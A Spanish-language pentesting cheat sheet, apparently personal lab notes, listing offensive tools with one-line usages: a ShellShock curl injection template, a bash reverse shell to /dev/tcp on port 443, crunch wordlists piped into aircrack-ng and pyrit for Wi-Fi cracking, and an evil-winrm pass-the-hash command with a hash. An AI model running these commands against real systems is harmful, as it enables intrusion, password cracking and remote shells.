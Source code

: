**ShellShock** con curl

curl -H &quot;User-Agent: () { :;}; echo; \&lt;comando\&gt;&quot;[http://hello.com/cgi-bin/\&lt;cualquier](http://hello.com/cgi-bin/%3Ccualquier) ejecutable que se encuentre aquí\&gt;

Ejemplo: /bin/bash -c &quot;bash -i \&gt;&amp; /dev/tcp/10.10.14.74/443 0\&gt;&amp;

CertUtil -\&gt; [https://www.hackingarticles.in/windows-for-pentester-certutil/](https://www.hackingarticles.in/windows-for-pentester-certutil/)

**CUPP** -\&gt; crea diccionario en función de un cuestionario para perfilar. (git clone[https://github.com/Mebus/cupp.git](https://github.com/Mebus/cupp.git))

CURL --\&gt; ver detalle

[**Crunch**](https://underc0de.org/foro/hacking/aprende-a-usar-crunch-paso-a-paso/)-\&gt;crea password para hacer diccionarios

crunch 8 8 -t telsur%% | aircrack-ng -w - test-01.cap -e something

crunch 8 8 0123456789 | pyrit -r msc-01.cap -i - attack\_passthrough

crunch 6 7 eghotu0134 | perl -ne &#39;print unless /([a-z]).\*\1/&#39; \&gt; wordlist.txt

crunch 8 8 987 -t @%%%%%%% -p +569 -o numeros.txt (genera números de celulares chilenos)

Dig-\&gt;obtiene información de dns (puerto 53) para un dominio particular

dig windcorp.thm any @10.10.78.247

[**Dirb**](http://www.lazarus.com.ve/dirb-es-un-escaner-de-contenido-web-busca-objetos-web-existente-ocultos/)-\&gt; enumera urls disponibles de un dominio, por medio de probar las carpetas más comunes.

dirb http://\&lt;sitio\&gt;/\&lt;path\&gt;; dirb [http://192.168.1.103](http://192.168.1.103/) -X .php

**Dmitry** -\&gt; para obtención de información

dmitry -s -n \&lt;host\&gt;

**DNSenum** -\&gt; enumera información de los servidores DNS

**DNSMap** -\&gt; obtiene información de los DNS

**Dnsmasq** -\&gt;

**Empire** _-\&gt;_ Agente de post-explotación de PowerShell puro basado en comunicaciones criptográficas seguras y una arquitectura flexible.

**Enum4linux -\&gt;** [https://highon.coffee/blog/enum4linux-cheat-sheet/](https://highon.coffee/blog/enum4linux-cheat-sheet/)

**Ettercap** -\&gt;para arpoisoning / MITM1

**Exiftool** -\&gt;extrae y modifica metadatos

**Evil-winrm --\&gt;explota pass the hash**

| | Sudo gem install evil-winrm |
| --- | --- |
|   | evil-winrm -i 10.10.136.125 -H e4876a80a723612986d7609aa5ebc12b --user AdministratorCrea una shell directamente en el equipo windows.[https://blog.spookysec.net/kerberos-abuse/](https://blog.spookysec.net/kerberos-abuse/) |
